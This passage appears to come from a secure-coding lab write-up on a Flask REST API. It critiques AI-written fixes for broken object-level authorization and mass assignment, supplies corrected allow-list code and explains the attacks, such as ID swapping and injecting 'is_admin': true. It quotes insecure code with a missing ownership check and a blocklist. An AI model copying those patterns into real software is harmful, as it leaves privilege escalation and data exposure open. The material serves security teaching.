        del data["is_admin"]  # remove admin field
    user = {"id": get_next_id()}
    user.update(data)
    return jsonify(user), 201
```

### 2. Critique of What is Wrong / Risky in the AI Output
1. **Flawed BOLA Fix (Missing Ownership Comparison):**
   - In `get_orders`, the AI checks whether `user` exists (`if not user:`), but completely fails to check if the caller owns the requested object! It returns `ORDERS.get(uid, [])` to *any* user who supplies *any* header, meaning Alice can still view Carol's orders. This is a classic "authentication check without authorization check" error.
2. **Flawed Mass Assignment Fix (Vulnerable Denylist / Blocklist Approach):**
   - The AI uses a blocklist approach: `if "is_admin" in data: del data["is_admin"]`. This is critically insecure because:
     - An attacker can still smuggle other privileged attributes such as `balance: 1000000`, `role: "admin"`, `verified: true`, or `account_tier: "vip"`.
     - Parameter variations (e.g., `isAdmin`, `is_admin_flag`, nested objects) will bypass the deletion.
3. **Insecure Authentication Reliance:**
   - The AI trusts the raw, unvalidated `X-User-Id` header without cryptographic token validation or type casting.

### 3. Correct, Verified Implementation
```python
# Correct BOLA Defense: Authenticate AND Authorize against resource ownership
ALLOWED_CREATE_FIELDS = {"username", "password"}

@app.get("/api/users/<int:uid>/orders")
def get_orders(uid):
    caller = get_authenticated_user_from_jwt() # Cryptographically verified
    if not caller:
        return jsonify({"error": "authentication required"}), 401
    if caller["id"] != uid and not caller["is_admin"]:
        return jsonify({"error": "forbidden"}), 403
    return jsonify(ORDERS.get(uid, []))

# Correct Mass Assignment Defense: Explicit Allow-list / DTO
@app.post("/api/users")
def create_user():
    body = request.get_json(force=True) or {}
    # Bind ONLY safe, client-controllable fields
    user = {k: body[k] for k in ALLOWED_CREATE_FIELDS if k in body}
    if "username" not in user or "password" not in user:
        return jsonify({"error": "username and password required"}), 400
    # Enforce all privileged and internal properties server-side
    user.update({"id": generate_secure_id(), "balance": 0, "is_admin": False})
    save_user_to_db(user)
    return jsonify(user), 201
```
*Why the verified version is required:* It replaces the AI's incomplete check with strict per-object ownership enforcement (returning 403 on mismatch) and replaces the AI's unsafe blocklist with a strict allow-list, guaranteeing that no unapproved fields can ever be stored in the database.

---

## 🧠 Comprehension & Prompt (required)

### A. Explain in Plain English (EiPE)
In REST APIs, developers organize data around predictable resource addresses like `/api/users/3/orders` and use convenient helper functions that copy incoming JSON data directly into database models. The code was exploitable because it assumed that anyone knowing a user's ID was allowed to view it, and that clients would only send benign form fields. An attacker could simply replace their own ID with an administrator's ID to steal private orders, or add `"is_admin": true` into their registration form to automatically grant themselves administrative rights.

### B. Prompt Problem
- **Refined Security Engineering Prompt:**
  ```text
  You are an application security architect reviewing a Python Flask REST API.
  Write a secure implementation for two endpoints:
  1. GET /api/users/<int:uid>/orders
  2. POST /api/users

  Requirements:
  - Protect against OWASP API1:2023 (BOLA) by extracting caller identity from a verified session/token and returning 401 if unauthenticated and 403 if the caller is neither an admin nor the owner of <uid>.
  - Protect against OWASP API3:2023 (Mass Assignment) by using a strict allow-list (DTO pattern) containing ONLY {'username', 'password'}, while explicitly hardcoding server-side defaults for sensitive attributes ('id', 'is_admin': False, 'balance': 0).
  - Do NOT use blocklists/denylists.
  - Return appropriate HTTP status codes (200, 201, 400, 401, 403).
  ```

- **Verified Result:**
  Running this prompt produces a clean, compliant implementation that exactly matches the architecture of `solution_api.py`. When tested against the exploit payloads from Tasks 1 and 2, all privilege escalation and BOLA attempts are completely rejected with `403 Forbidden` and sanitized database records.

